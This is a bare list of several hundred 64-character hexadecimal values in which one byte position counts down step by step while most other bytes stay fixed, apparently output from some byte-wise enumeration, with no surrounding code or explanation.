00000000000000000000000000a4adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a3adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a2adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a1adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a0adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000009fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000009eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000009dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000009cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000009badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000009aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000099adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000098adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000097adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000096adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000095adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000094adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000093adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000092adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000091adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000090adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000008fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000008eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000008dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000008cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000008badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000008aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000089adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000088adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000087adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000086adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000085adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000084adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000083adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000082adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000081adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000080adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000007fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000007eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000007dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000007cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000007badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000007aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000079adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000078adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000077adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000076adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000075adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000074adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000073adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000072adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000071adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000070adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000006fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000006eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000006dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000006cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000006badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000006aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000069adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000068adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000067adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000066adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000065adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000064adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000063adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000062adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000061adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000060adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000005fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000005eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000005dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000005cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000005badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000005aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000059adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000058adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000057adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000056adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000055adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000054adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000053adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000052adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000051adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000050adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000004fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000004eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000004dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000004cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000004badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000004aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000049adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000048adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000047adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000046adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000045adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000044adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000043adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000042adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000041adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000040adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000003fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000003eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000003dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000003cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000003badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000003aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000039adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000038adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000037adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000036adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000035adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000034adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000033adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000032adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000031adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000030adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000002fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000002eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000002dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000002cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000002badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000002aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000029adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000028adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000027adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000026adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000025adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000024adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000023adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000022adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000021adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000020adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000001fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000001eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000001dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000001cadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000001badf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000001aadf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000019adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000018adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000017adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000016adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000015adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000014adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000013adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000012adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000011adf577eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000010adf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000fadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000eadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000dadf577eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000ff0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000fe0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000fd0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000fc0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000fb0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000fa0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f90aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f80aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f70aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f60aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f50aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f40aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f30aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f20aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f10aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000f00aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000ef0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000ee0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000ed0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000ec0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000eb0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000ea0aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000e90aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000e80aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000e70aaaf277eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000e60aaaf277eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000ffe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000fee70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000fde70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000fce70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000fbe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000fae70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f9e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f8e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f7e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f6e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f5e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f4e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f3e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f2e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f1e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000f0e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000efe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000eee70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000ede70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000ece70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000ebe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000eae70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e9e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e8e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e7e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e6e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e5e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e4e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e3e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e2e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e1e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000e0e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000dfe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000dee70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000dde70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000dce70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000dbe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000dae70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d9e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d8e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d7e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d6e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d5e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d4e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d3e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d2e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d1e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000d0e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000cfe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000cee70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000cde70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000cce70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000cbe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000cae70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c9e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c8e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c7e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c6e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c5e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c4e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c3e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c2e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c1e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000c0e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000bfe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000bee70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000bde70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000bce70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000bbe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000bae70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b9e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b8e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b7e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b6e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b5e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b4e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b3e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b2e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b1e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000b0e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000afe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000aee70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000ade70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000ace70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000abe70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000aae70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a9e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a8e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a7e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a6e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a5e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a4e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a3e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a2e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a1e70babf377eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000a0e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000009fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000009ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000009de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000009ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000009be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000009ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000099e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000098e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000097e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000096e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000095e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000094e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000093e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000092e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000091e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000090e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000008fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000008ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000008de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000008ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000008be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000008ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000089e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000088e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000087e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000086e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000085e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000084e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000083e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000082e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000081e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000080e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000007fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000007ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000007de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000007ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000007be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000007ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000079e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000078e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000077e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000076e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000075e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000074e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000073e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000072e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000071e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000070e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000006fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000006ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000006de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000006ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000006be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000006ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000069e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000068e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000067e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000066e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000065e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000064e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000063e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000062e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000061e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000060e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000005fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000005ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000005de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000005ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000005be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000005ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000059e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000058e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000057e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000056e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000055e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000054e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000053e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000052e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000051e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000050e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000004fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000004ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000004de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000004ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000004be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000004ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000049e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000048e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000047e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000046e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000045e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000044e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000043e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000042e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000041e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000040e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000003fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000003ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000003de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000003ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000003be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000003ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000039e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000038e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000037e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000036e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000035e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000034e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000033e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000032e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000031e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000030e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000002fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000002ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000002de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000002ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000002be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000002ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000029e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000028e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000027e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000026e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000025e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000024e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000023e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000022e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000021e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000020e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000001fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000001ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000001de70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000001ce70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000001be70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000001ae70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000019e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000018e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000017e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000016e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000015e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000014e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000013e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000012e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000011e70babf377eb9f8779eeda009e2365505fa7e3d6
000000000000000000000010e70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000fe70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000ee70babf377eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000de70babf377eb9f8779eeda009e2365505fa7e3d6
